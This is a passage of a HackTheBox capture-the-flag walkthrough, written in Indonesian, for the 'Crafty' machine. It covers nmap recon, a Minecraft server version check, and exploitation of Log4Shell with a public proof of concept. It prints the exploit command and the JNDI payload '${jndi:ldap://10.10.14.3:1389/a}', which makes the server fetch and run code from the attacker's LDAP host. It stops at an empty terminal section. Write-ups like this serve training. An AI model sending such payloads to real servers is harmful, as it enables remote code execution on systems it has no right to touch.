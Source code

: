 ```yaml
---
title: HackTheBox - Crafty
date: 2024-02-15 14:22:00 +0700
categories:
  - HackTheBox
  - Machines
tags:
  - easy
---
```


![Desktop View](/assets/img/hackthebox/machines/easy/crafty/Crafty.png)
## Recon
### Nmap 
```bash
# Nmap 7.94 scan initiated Sun Feb 11 06:33:40 2024 as: nmap -p- -sCV -T4 -oN nmapall.txt 10.10.11.249
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.24s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Crafty - Official Website
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 11 06:43:57 2024 -- 1 IP address (1 host up) scanned in 617.33 seconds
```
Dapat dilihat kalau port `25565/tcp` adalah server minecraft

### Browser
![Desktop View](/assets/img/hackthebox/machines/easy/crafty/crafty1.png)
Nah, itu kan ada server minecraft, coba kita cek [disini](https://mcstatus.io/status/java/play.crafty.htb).
![](/assets/img/hackthebox/machines/easy/crafty/crafty2.png)
Untuk cek versinya saya pakai [ini](https://github.com/OwenCochell/mctools).
```bash
❯ python mcli.py 10.10.11.249:25565 ping
+========================================================================+
# Pinging Minecraft server @ 10.10.11.249:25565 and retrieving stats ...
# Retrieved stats! Response time: 281.18150199998126 milliseconds
# Statistics:

[description]: Crafty Server
[players]:
   [max]: 100
   [online]: 1
   [sample]:
      [0]:
         [0]: kz
         [1]: 7df8cac7-c8c0-3926-8d2b-478fc886ce8e
   [message]: 
[version]:
   [name]: 1.16.5
   [protocol]: 754
[time]: 281.18150199998126
```
### Exploit
Ternyata versi minecraft yang digunakan 1.16.5, coba cari CVE/exploitnya. Dari web [ini](https://nodecraft.com/blog/service-updates/minecraft-java-edition-security-vulnerability) dapat disimpulkan vuln/kerentanannya adalah log4j. Coba tuh cari exploitnya, setelah mencari dan saya menemukan [ini](https://github.com/kozmer/log4j-shell-poc), git clone ke mesinmu. Untuk menjalankan exploitnya kita memerlukan jdk-8u20 akan tetapi disini saya download yang [jdk-8u181](https://packages.baidu.com/app/jdk-8/), ekstrak dan akan muncul direktori jdk1.8.0_181, dan untuk menjalankan exploitnya kita ubah namanya dari jdk1.8.0_181 -> jdk1.8.0_20.
## Shell into svc-minecraft
Coba jalankan exploitnya
```bash
=== Terminal 1 ===

❯ python3 poc.py --userip 10.10.14.3 --webport 9002 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.3:1389/a}
[+] Starting Webserver on port 9002 http://0.0.0.0:9002

Listening on 0.0.0.0:1389
```
Disitu kita harus mengirim `${jndi:ldap://10.10.14.3:1389/a}` ke server minecraftnya. Tapi kan saya gak punya minecraft, apalagi java. Tenang disini ada 2 opsi pilihan, bisa pakai tlauncher atau [pycraft](https://github.com/ammaraskar/pyCraft). Untuk kali ini saya pakai yang pycraft, jika menjalankannya ada kendala dengan python, coba pakai venv
```bash
=== Terminal 2 ===

❯ python -m venv venv
❯ source venv/bin/activate
❯ pip install -r requirements.txt
❯ python start.py
Enter your username: kz
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected
${jndi:ldap://10.10.14.3:1389/a} <- kirim disini


=== Terminal 3 ===


```